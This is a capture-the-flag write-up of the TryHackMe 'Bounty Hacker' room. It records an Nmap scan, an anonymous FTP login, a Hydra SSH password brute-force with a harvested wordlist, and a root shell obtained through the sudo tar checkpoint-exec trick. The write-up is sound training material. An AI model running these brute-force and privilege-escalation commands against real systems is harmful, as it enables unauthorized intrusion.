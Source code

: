 ## Bounty Hacker Writeup
[Other THM Writeups](../../../)

**Author** : [Ridful](../../../../)

**THM** : [Ridful](https://tryhackme.com/p/Ridful)

**Twitter** : [Ridful5](https://twitter.com/Ridful5)

# [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)


## Task 1

Run a Nmap scan

sudo nmap -sS -sV 10.10.147.231
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 22:15 EST
Nmap scan report for 10.10.147.231
Host is up (0.29s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check the website first at: http:// 10.10.147.231/

There's some potential usernames here we can note down.

touch usernames.txt

Enter all of the usernames mentioned on http:// 10.10.147.231/ into usernames.txt

Let's move on to ftp and check if we've got an anonymous login open.

ftp anonymous@10.10.147.231
```
Connected to 10.10.147.231.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

We do! Let's go ahead and grab any files available

passive
```
Passive mode: off; fallback to active mode: off.
```

ls -la
```
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Download the two textfiles files our current working directory outside of ftp

mget *
```
ftp> mget *
mget locks.txt [anpqy?]? y
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*********************************************************|   418      495.39 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.44 KiB/s)
mget task.txt [anpqy?]? y
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*********************************************************|    68      180.45 KiB/s    00:00 ETA
226 Transfer complete.
```

Alternatively we can do **get locks.txt** and **get task.txt**.

then **exit** out of ftp.

ls
```
task.txt  locks.txt  usernames.txt
```

cat task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

lin is a potential username we haven't seen before, let's add lin to usernames.txt

**ADD lin** to **usernames.txt**

**ADD lin** to **usernames.txt**

echo "lin" >> usernames.txt

cat locks.txt
```
[...]
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
[...]
```

Let's get hydra running what seemed like a password list against all of the potential usernames we found

hydra ssh://10.10.147.231 -L usernames.txt -P locks.txt -t 6
```
[...]
[DATA] attacking ssh://10.10.147.231:22/
[22][ssh] host: 10.10.147.231   login:  lin   password: xxxxxxxxxxxxxx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-18 22:23:53
```

ls
```
user.txt
```

cat user.txt
```
THM{xxxxxxxxxxxxx}
```

id
```
uid=1001(lin) gid=1001(lin) groups=1001(lin)
```

sudo -l
```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Cool, we've got the ability to run tar as root, let's check gtfobins if there's anything useful we can do with the tar binary.

https://gtfobins.github.io/gtfobins/tar/

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
tar: Removing leading `/' from member names
#
```

id
```
uid=0(root) gid=0(root) groups=0(root)
```

sudo -l
```
[...]
User root may run the following commands on bountyhacker:
    (ALL : ALL) ALL
```

find / -type f -name root.txt
```
/root/root.txt
```

cat /root/root.txt
```
THM{xxxxxxxxxxxxx}
```


# Reflection

This was a fun room, I enjoyed it, and definitely positively benefited from it.

I did make a blunder in the sense that I didn't check "sudo -l" until pretty late on..
Ideally I would've checked it as soon as I had successfully connected through with SSH.

To me, this highlights the importance of a rudimental "checklist" of what things are very preferable to remember doing at the very early steps.

Had I been using a checklist for myself, I presumably wouldn't have wasted a good chunk of time by moving on to unfamiliar territories prematurely,
before making fully sure that the all the simpler stuff has all been successfully performed.
